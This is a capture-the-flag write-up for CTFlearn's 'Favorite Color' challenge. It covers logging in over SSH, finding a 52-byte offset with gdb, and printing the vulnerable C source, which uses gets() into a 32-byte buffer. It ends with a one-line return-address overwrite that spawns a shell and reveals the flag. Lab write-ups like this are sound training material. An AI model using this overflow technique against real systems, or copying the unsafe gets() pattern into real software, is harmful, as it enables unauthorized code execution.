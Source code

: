 # Favorite Color
#### Write-up author: [jon-brandy](https://github.com/jon-brandy)
## DESCRIPTION:
What's your favorite color? Would you like to share with me? Run the command: `ssh color@104.131.79.111 -p 1001` (pw: guest) to tell me!
## HINT:
- NONE
## STEPS:
1. First, paste the **ssh** command at your linux terminal.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/194744746-859d42e7-810b-48c2-9f83-8864a49c4aec.png)


2. Based from the description, enter the pass as **guest**.
3. And we are logged in.

![image](https://user-images.githubusercontent.com/70703371/194744762-0b239ac9-342c-40e7-afe5-e4d741875a51.png)


4. Looks like we have 4 files.

![image](https://user-images.githubusercontent.com/70703371/194744769-ba36a56c-b3d8-4654-a05d-fd5631ad4b35.png)


5. Let's check are there any hidden files inside this directory.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/194744792-50d4a124-9b42-4916-a44a-cd48ce87102f.png)


6. Well, there are. But looks like it's not useful.
7. Anyway, let's run the **color** program.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/194744846-a76cea10-149c-4bad-9de3-330e4f549640.png)


![image](https://user-images.githubusercontent.com/70703371/194744854-dbf9075b-7b21-4668-9e29-46bac06f6c9c.png)


8. Hmm.. what may happen if we enter 100 A's.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/194744902-cc1268e9-efee-46ce-a303-4c1db424fd88.png)


9. Got segmentation fault.
10. Let's run the program in gdb and enter 100 A's as the input.

> GDB

![image](https://user-images.githubusercontent.com/70703371/194744959-c21264be-8c25-40a7-8a2e-cbba43464ad4.png)


11. We got clue here, we can control the return address.
12. We need to know how many padding should we add, so we can overwrite the eip.
13. For this solution i cut the bytes in half first, but remember it has to be a multiple of 4. So let's enter **48** bytes.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/194745185-56560e31-0695-4316-9620-1973a145fc96.png)


14. Got segmentation fault, but let's add another 4 bytes to it.

> 52 BYTES

![image](https://user-images.githubusercontent.com/70703371/194745273-0a8a4426-69e6-4214-9af1-1761195426b2.png)


15. We got different return address now, add another again.

> 56 BYTES

![image](https://user-images.githubusercontent.com/70703371/194745315-4594c67e-144a-49ce-b973-7fa275b04c6f.png)


16. Great! Now we know the correct padding is **52 Bytes**.
17. Now let's analyze the source code so we know the offset we need to add.

> COLOR.C

``` c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int vuln() {
    char buf[32];
    
    printf("Enter your favorite color: ");
    gets(buf);
    
    int good = 0;
    for (int i = 0; buf[i]; i++) {
        good &= buf[i] ^ buf[i];
    }
    
    return good;
int main(char argc, char** argv) {
    setresuid(getegid(), getegid(), getegid());
    setresgid(getegid(), getegid(), getegid());
    
    //disable buffering.
    setbuf(stdout, NULL);
    
    if (vuln()) {
        puts("Me too! That's my favorite color too!");
        puts("You get a shell! Flag is in flag.txt");
        system("/bin/sh");
    } else {
        puts("Boo... I hate that color! :(");
    }

```

18. We need to find the start offset from this if statement.

![image](https://user-images.githubusercontent.com/70703371/194745668-b66be0ee-f0fa-490a-91be-fb0992051fd4.png)


19. Open the file in gdb and **disass** the main.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/194745697-f9b9fd56-6dd7-4c4b-a3ac-f3c970a70d34.png)


20. It should start from here.

![image](https://user-images.githubusercontent.com/70703371/194745714-97865177-5981-4df6-97eb-c4f291bdcab6.png)


21. And this is the **system** function offset.

![image](https://user-images.githubusercontent.com/70703371/194745898-4034d649-e5eb-4432-aa97-e1e21a65b79d.png)


22. Quit from gdb and write this script at the ssh terminal.

> SCRIPT

```py
(python -c "print('A'*52 + '\x5f\x86\x04\x08')";cat) | ./color
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/194749310-02add362-daec-4a73-8087-03d76cee35a1.png)


23. Now strings the `flag.txt` file.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/194749346-bf280e4e-e884-49a6-a207-4ef5402fec48.png)


24. Finally! We got the flag!


## FLAG

```
CTFlearn{c0lor_0f_0verf1ow}
```

